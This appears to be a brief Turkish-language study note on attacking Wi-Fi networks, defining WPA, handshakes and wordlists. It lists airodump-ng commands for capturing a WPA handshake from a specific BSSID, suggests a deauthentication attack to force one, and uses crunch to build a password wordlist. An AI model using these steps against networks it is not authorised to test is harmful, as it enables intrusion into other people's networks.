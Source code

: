 ### Ağlara Saldırmak

**_ WPA _**
WPA (Wi-Fi Protected Access), kablosuz ağlarda veri güvenliğini sağlamak için kullanılan bir şifreleme ve kimlik doğrulama protokolüdür.

-Handshake- kablosuz bir ağa (Wi-Fi) bağlanmak isteyen bir cihaz ile modem (router) arasında yapılan kimlik doğrulama işlemidir.

-Wordlist- siber güvenlikte ve özellikle brute-force saldırılarında kullanılan, içinde şifre olabilecek kelimelerin (parola tahminlerinin) bulunduğu metin dosyasıdır (.txt).

//terminalle password kırma

~iwconfig //monitor moda geç
~airodump-ng wlan0mon //ağ bilgileri al
~airodump-ng --channel 9 --bssid E4:C3:2A:B7:23:90 --write airodumptest wlan0mon //handshake üstte çıkar.Çıkmazsa ağdan atma saldırısı yap. Sonra çıkacaktır. handshake çımış halde write yazdırdığın dosya lazım

//Crunch kali de yüklüdür
~crunch 8 9 xy123 -o testwordlist // 8-9 haneli password, içerisinde xy123 geçen
